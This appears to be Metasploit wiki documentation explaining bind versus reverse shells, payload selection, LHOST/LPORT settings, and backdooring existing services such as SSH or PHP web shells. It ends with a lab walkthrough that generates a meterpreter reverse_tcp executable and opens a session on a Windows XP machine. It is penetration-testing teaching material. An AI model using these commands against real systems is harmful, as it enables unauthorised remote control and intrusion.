 There are two popular types of shells: bind and reverse. A bind shell opens up a new service on the target machine, and requires the attacker to connect to it. A reverse shell (also known as a connect-back) is the exact opposite: it requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally the attacker receives the shell.

The basic usage of payloads is already quite well documented in the [Users Guide](https://github.com/rapid7/metasploit-framework/blob/master/documentation/users_guide_4.3.pdf) in Metasploit's documentation folder. However, learning how to use a reverse shell still remains the most common question in the Metasploit community. Plus, 9 times out of 10 you'd probably be using a reverse shell to get a session, so in this wiki documentation we will explain more about this.

## List of Metasploit reverse shells

As of now, there are 168 different reverse shells in the Metasploit Framework. We will not list all of them here, because that's just straight up spamming. But if you'd like, you can run the following command to get msfpayload to tell you:

```bash
./msfpayload -l |grep reverse
```

As a rule of thumb, always pick a meterpreter, because it currently provides better support of post exploitation Metasploit has to offer. For example, railgun, post modules, unique meterpreter commands (like webcam controls), etc.

In Windows, the most commonly used reverse shell is windows/meterpreter/reverse. But you can also try windows/meterpreter/reverse_http or windows/meterpreter/reverse_https, because their network traffic appear a little bit less abnormal.

In Linux, you can also try linux/x86/meterpreter/reverse_tcp, or the 64-bit one. However, just know that linux/x86/shell_reverse_tcp has been the most stable.

## When to use a reverse shell

If you find yourself in one of the following scenarios (but not limited to), then you should consider using a reverse shell:

* The target machine is behind a different private network.
* The target machine's firewall blocks incoming connection attempts to your bindshell.
* Your payload is unable to bind the port it wants due to whatever reason.
* You simply can't decide what to choose.

## When a reverse shell isn't needed

Generally speaking, if you can backdoor an existing service, you may not need a reverse shell. For example: if the target machine is already running a SSH server, then you can try adding a new user to it and use that.

If the target machine is running a web server that supports a server-side programming language, then you can leave a backdoor in that language. For example, many Apache servers support PHP, then you can use a PHP "web shell". IIS servers usually support ASP, or ASP.net. The Metasploit Framework offers payloads in all these languages (and many others).

Same thing for VNC, remote desktop, or other remote admin tools, etc.

## How to set up for a reverse shell during payload generation

When you generate a reverse shell, you must know how to configure the following:

* **LHOST** - This is the IP address you want your target machine to connect to, literally. If you're in a local area network, it is very unlike your target machine can reach you unless you both are in the same network. In that case, you will have to [find out your public-facing IP address](https://www.google.com/webhp?q=ip#q=ip), and then configure your network to port-forward that connection to your box. LHOST should not be "localhost", or "0.0.0.0", or "127.0.0.1", basically if you do, you're basically telling the target machine to connect to itself.
* **LPORT** - This the port you want your target machine to connect to.

When you set up a listener for the reverse shell, you also at least need to configure LHOST and LPORT, but slightly different meanings (different perspective):

* **LHOST** - This is the IP address you want your listener to bind to.
* **LPORT** - This is the port you want your listener to bind to.

You should make sure the listener has started first before executing the reverse shell.

## Demonstration

In this demonstration, we have two boxes:

**Box A:**

* The attacker's box that receives the payload session
* IP is: 192.168.1.64 (ifconfig)
* On the same network as the victim machine

**Box B:**

* The "victim" machine
* Windows XP
* IP is: 192.168.1.80 (ipconfig)
* On the same network as the attacker machine
* For testing purposes, no antivirus enabled.
* For testing purposes, no firewall enabled, either.

**Step 1: I generate my executable payload:**

On the attacker's box, I run msfpayload like the following (or msfvenom, whatever you prefer):


```bash
$ ./msfpayload windows/meterpreter/reverse_tcp lhost=192.168.1.64 lport=4444 X > /tmp/iambad.exe  
Created by msfpayload (http://www.metasploit.com).  
Payload: windows/meterpreter/reverse_tcp  
Length: 287  
Options: {"LHOST"=>"192.168.1.64", "LPORT"=>"4444"}  
```

**Step 2: I copy my executable payload to Box B (my victim machine)**
 
This step requires no further explanation.

**Step 3: I set up my payload handler on box A (the attacker's box):**

```bash
$ ./msfconsole -q  
msf > use exploit/multi/handler  
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp  
payload => windows/meterpreter/reverse_tcp  
msf exploit(handler) > set lhost 192.168.1.64  
lhost => 192.168.1.64  
msf exploit(handler) > set lport 4444  
lport => 4444  
msf exploit(handler) > run  
  
[*] Started reverse handler on 192.168.1.64:4444  
[*] Starting the payload handler...  
```

**Step 4: I double-click on the malicious executable**
 
This step requires no further explanation.
 
**Step 5: I should see a meterpreter/payload session on box A (the attacker's box)**
 
Like this:


```bash
$ ./msfconsole -q  
msf > use exploit/multi/handler  
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp  
payload => windows/meterpreter/reverse_tcp  
msf exploit(handler) > set lhost 192.168.1.64  
lhost => 192.168.1.64  
msf exploit(handler) > set lport 4444  
lport => 4444  
msf exploit(handler) > run  
  
[*] Started reverse handler on 192.168.1.64:4444  
[*] Starting the payload handler...  
[*] Sending stage (770048 bytes) to 192.168.1.80  
[*] Meterpreter session 1 opened (192.168.1.64:4444 -> 192.168.1.80:1138) at 2014-10-22 19:03:43 -0500  
meterpreter >  
```

The meterpreter prompt means you are currently interacting with the payload.
